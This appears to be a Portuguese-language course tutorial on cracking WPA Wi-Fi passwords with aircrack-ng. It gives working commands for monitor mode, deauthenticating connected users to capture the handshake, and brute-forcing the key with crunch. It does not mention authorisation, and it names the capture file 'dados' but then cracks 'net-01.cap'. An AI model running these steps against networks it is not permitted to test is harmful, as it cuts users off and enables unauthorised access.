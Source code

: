 <h1>Prática Ubuntu</h1>
<p>
Instale o aircrack-ng:
</p>

<p>
<pre><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<pre><code>iwconfig
</code></pre>
</p>
<img src="https://github.com/cavalcantteme/Seguranca20181/blob/master/Pratica_Invasao_WiFi/ubuntu/imagens/iwconfig.png"/>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<pre><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<pre><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<pre><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>
</p>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<pre><code>sudo airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<ul>
<li><strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.</li>
<li><strong>CH:</strong> Canal na qual a rede está operando.</li>
<li><strong>ESSID:</strong> nome que é visível na rede.</li>
</ul>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Caso não já tenha instalado, será necessário a instalação do programa crunch:
</p>
<p>
<pre><code>sudo apt-get update
</code></pre>
</p>
<p>
<pre><code>sudo apt-get install crunch
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Você também pode usar o seguinte comando, caso deseje começar a busca a partir de uma determinada combinação dentro padrão.
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] -s [combinação] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<pre><code>sudo service network-manager start
</code></pre>
</p>
